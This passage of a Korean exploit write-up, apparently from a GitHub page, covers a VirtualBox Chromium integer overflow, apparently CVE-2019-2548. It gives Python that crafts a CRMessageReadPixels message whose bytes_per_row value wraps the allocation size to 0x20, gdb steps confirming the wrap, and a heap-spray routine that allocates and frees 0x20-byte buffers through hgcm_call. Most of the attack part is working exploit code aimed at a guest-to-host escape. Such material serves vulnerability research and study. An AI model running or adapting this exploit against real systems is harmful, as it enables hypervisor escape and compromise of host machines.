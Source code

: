 `msg_len = sizeof(*rp) + (uint32_t)bytes_per_row * height`

를 mem_len 0x20(특별한 구조체의 크기)으로 만들기 위해서 

byte_per_row에 0x1ffffffd를 height에 0x8을 넣어 줘야 한다.

그러면 계산은 이렇게 된다.

> msg_len(1 00000020) = 0x38 + 0x1ffffffd * 0x8

CRMessageReadPixels의 구조에 맞추어서 msg를 생성한다

```python
def make_readpixels_msg(uiId, uiSize):
    msg = (
	pack("<III", CR_MESSAGE_OPCODES, 0X41414141,1) # type, conn_id, numOpcodes
	+ "\x00\x00\x00" + chr(CR_READPIXELS_OPCODE)  # opcode1
	+ pack("<III", 0,0,0) # x, y, width
	+ pack("<I",8) #height
	+ pack("<I",0x35) #format
	+ pack("<I", 0) # type
	+ pack("<IIII",0,0,0,0) # stride, alignment, skipRows, skipPixels
	+ pack("<I", 0x1ffffffd) # bytes_per_row
	+ pack("<I",0) #rowLength
	+ pack("<II", uiId, uiSize) #uiID, uiSize
    )
    return msg
```

변조된 것을 확인해 보기 위해 

`break * crServerDispatchReadPixels+152`

에 브레이크를 걸어서 확인한다.

이 곳은 위 코드 상의

`rp = (CRMessageREADpixels *) crAlooc(msg_len)`

에 해당한다.

![image](https://user-images.githubusercontent.com/46625602/78125858-95ee9980-744c-11ea-87b3-9983ab32ee7f.png)

rax는 전달 인자가 들어가는 곳으로 msg_len이 0x20으로 변조된 것을 알 수 있다. 

하지만 여전히 p/x sizeof(CRMessageHeader)은 0x38이다.

![image](https://user-images.githubusercontent.com/46625602/77729961-373bb100-7043-11ea-9670-02e5da295c2d.png)

----

## CVE-2548 heapSpray

```python
def heapSpray(client):
    buf_ids = []

# make heap 0x20
    for i in range(130):
	buf_ids.append(hgcm_call(client,SHCRGL_GUEST_FN_WRITE_BUFFER,[0, 0x20, 0, "B"*0x20])[0])

# how to free? 0x20
    for i in range(1,60,2) :
	hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [buf_ids[i], "C"*0x20, 1337])
```
